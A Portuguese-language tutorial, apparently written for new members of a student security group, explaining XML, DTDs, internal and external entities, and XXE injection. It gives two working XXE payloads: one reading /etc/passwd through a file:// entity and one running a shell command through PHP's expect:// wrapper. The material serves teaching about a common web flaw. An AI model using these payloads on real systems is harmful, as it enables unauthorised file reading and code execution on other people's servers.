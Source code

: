 # XML, DTD e XXE Injection

## O que é XXE Injection?

XXE (XML external entity) Injection é uma vulnerabilidade web que permite ao atacante se aproveitar do processamento de dados XMLs de uma aplicação de maneira maliciosa.

Dentre outros problemas, esse tipo de ataque pode levar o atacante à visualização de arquivos confidenciais e à interação com o backend da aplicação (e, possivelmente, sistemas externos), levando a possíveis SSRFs.

Mas antes de entender como funciona esse ataque, devemos entender o que é: XML, DTDs e entidades.

## Explicando brevemente XML
XML significa **Ex**tensible **M**arkup **L**anguage. Essa linguagem de marcação foi criada para armazenar e transportar dados, assim como o JSON. Por sinal, a popularidade do XML diminuiu devido ao JSON.

O XML utlizada _tags_ em uma estrutura de árvore, de forma similar ao HTML (tags uma dentro da outra e dados entre o ínicio e o fim das tags). Entretanto, o XML não tem _tags_ predefinidas, ou seja, a pessoa que está criando o XML pode definir suas próprias _tags_, como no exemplo abaixo:

``` XML
<?xml version="1.0" encoding="UTF-8"?>
<msg lang="pt-br" category="web">
    <from> Ganeshers </from>
    <to> All </to>
    <title> Exemplo para os bixos </title>
    <body> Esse é um exemplo de XML bem simples! </body>
</msg>
```

Para saber um pouco mais sobre XML, pesquise em sites como a [w3schools](https://www.w3schools.com/xml/).

## DTD (Document Type Definition)
Como descrito acima, DTD significa "definição de tipo de documento" e ela contém declarações que definem a estrutura do XML, os tipos de dados que ele contém e mais. A DTD é opcional. Ela é declarada dentro de um elemento chamado `DOCTYPE` no começo do documento XML. Além disso, a DTD pode ser interna - declarada dentro do documento XML - ou externa - carregada de uma fonte externa.

Para exemplificar, uma XML com DTD segue esse padrão:
``` XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doctype_name [ 
    <!ELEMENT elem1 (elem2, elem3)>
    <!ELEMENT elem2 (#PCDATA)>
    <!ELEMENT elem3 (#PCDATA)>
 ]>
 <elem1>
    <elem2> Dados do elem2, bom dia </elem2>
    <elem3> aaaa 1235125 pode haver qualquer coisa aqui </elem3>
</elem1>
```
_Obs.: PCDATA significa "Parsed Character Data" e representa um tipo de dado qualquer (não sei como explicar melhor, desculpa).

## Entidades XML
As _XML entities_ são uma forma de representar itens do documento XML sem usar seus dados diretamente. Pode-se pensar que essas entidades seriam como variáveis em uma linguagem de programação.

Essas entidades podem ser das especificações/padrões do XML, como  `&lt;` e `&gt;` (que representam `<` e `>`), ou podem ser costumizadas. As entidades customizadas são definidas dentro do DTD, como no exemplo a seguir.
``` XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE teste [ <!ENTITY texto_com_top "Top top" > ]>
<tag_generica> &lt;&texto_com_top;&gt; </tag_generica>
```
Nesse documento XML, `&texto_com_top;` seria substituido por`<Top top>`.

Com base nesse exemplo, nota-se que as entidades criadas devem ser referenciadas com `&` + `nome da entidade` + `;`. 

### Entidades internas
Como no exemplo anterior, as entidades internas são definidas no próprio documento XML, dentro do DTD do qual elas fazem parte, ou seja, não é necessário que o servidor que está processando o XML busque algum dado fora do documento.

### Entidades externas
Já esse tipo de entidade é caracterizado por conter uma definição que está fora do documento XML, ou seja, o resposável por processar o XML com uma entidade externa deverá buscar a definição da entidade fora do DTD. Esse tipo de entidade vem com a palavra-chave `SYSTEM` para indicar que ela é externa. Após o `SYSTEM`, há uma URL indicando de onde o valor deve ser carregado.

A entidade externa pode refenciar tanto servidores e serviços externos quanto o próprio servidor interno (usando o protocolo `file://`).
``` XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

## Voltando ao ataque
Agora que já foi explicado um pouco sobre XML, vamos entender um pouco sobre o ataque...

Esse tipo de Injection é possível em aplicações que usam XML para transmitir dados entre cliente (navegador) e servidor. O XML enviado para o servidor (backend) é "tratado" por um _parser_ (normalmente de alguma API ou biblioteca já existente) e muitas vezes esse tratamento é feito de forma indevida, permitindo que o dado enviado pelo cliente/atacante possa manipular o funcionamento do backend de forma maliciosa. Com exemplos, isso ficará mais claro...

### Exemplo 1: acessando arquivos do servidor
Como explicado anteriormente, as entidades externas presentes em documento XML podem buscar arquivos dentro do próprio servidor por meio do protocolo `file://`. Sendo assim, em certos casos no qual há vulnerabilidade no tratamento do XML, pode ser possível acessar arquivos como `/etc/passwd` por meio de um XXE Injection:
``` XML
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ELEMENT root ANY>
    <!ENTITY xxe SYSTEM 'file:///etc/passwd'>
]>
<root> &xxe; </root>
```

Caso o servidor retornasse o que está em `<root>` para ser exibido em um documento HTML, receberíamos o conteúdo de `/etc/passwd`.

### Exemplo 2: Execução de código remoto com PHP
Com um pouco de sorte, é possível que o servidor tenho o módulo (wrapper) `expect` carregado (por padrão ele não é), o que possivelmente permitirá execução de código a partir de um payload como o a seguir.
``` XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
    [<!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "expect://exec('ls -la')" >
]>
<creds>
  <user> &xxe; </user>
  <pass> 123 </pass>
</creds>
```

Além desse exemplos, há diversos outros possíveis ataques a partir dessa vulnerabilidade. Alguns links que podem ser interessantes para aprender um pouco mais sobre XXE Injection são:
- https://portswigger.net/web-security/xxe
- https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
